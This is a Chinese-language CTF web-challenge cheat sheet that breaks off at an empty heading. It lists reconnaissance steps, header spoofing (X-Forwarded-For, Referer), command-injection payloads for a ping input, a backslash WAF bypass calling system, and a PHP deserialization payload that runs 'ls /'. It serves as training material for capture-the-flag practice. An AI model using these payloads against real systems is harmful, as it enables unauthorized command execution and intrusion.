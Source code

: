 [TOC]

## 环境准备
Firefox + 插件 proxy, hackbar

Chrome + 插件 proxyomega + hackbar

    点击 Load URL, √Post data, 修改对应的字段
    点击 Execute


## 解题思路

1. 看源码，有什么提示。
1. 查看 robots.txt, index.php, flag.php, index.php~, 当前页 php
2. 如果提供了文件，可以百度下文件名， 可能有信息
3. 使用 file_get_contents 获取 index.php 看源码。
2. burpsuit 查看 request 和 response, response一定也要看
3. burpsuit 抓包拦截看参数有没有 admin 或flag之类
2. F12查看源码，source, 查找关键字 password, key ,flag
3. 以指定端口访问  curl web.jarvisoj.com:32770 --local-port 51
4. 本地登录 bp抓包，在上方添加,  X-Forwarded-For: 127.0.0.1
5. 必须来自https://www.google.com -- bp抓包在上方添加, Referer:https://www.google.com
5. 以管理员登录 请求时添加 admin=1, isadmin=1
6. 未使用waf过滤时,比如ping输入框 

        127.0.0.1 && find / -name "*.txt"
        -c 3 -c 1 127.0.0.1 && cat /home/flag.txt

5. xxe 漏洞 获取文件,比如API请求的题
6. sql md5 加密注入
7. 源码泄露。扫描，可能发现些什么，index.php~

### 过waf等过滤
1. 添加 \ 来过, 比如 \system
```
POST
http://d0ee41d4-e9af-43bb-99e7-e3adcf19757d.node3.buuoj.cn/index.php?func=\system&p=find / -name flag*
```

2. 先序列化 echo serialize($a), 然后提交反序列化的内容

``` php
<?php
class Test {
    var $p = 'ls /';
    var $func = 'system';
}
$a = new Test;
echo serialize($a);
?>
// O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
// 比如func和p, 提交 func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```
### 查找flag的命令
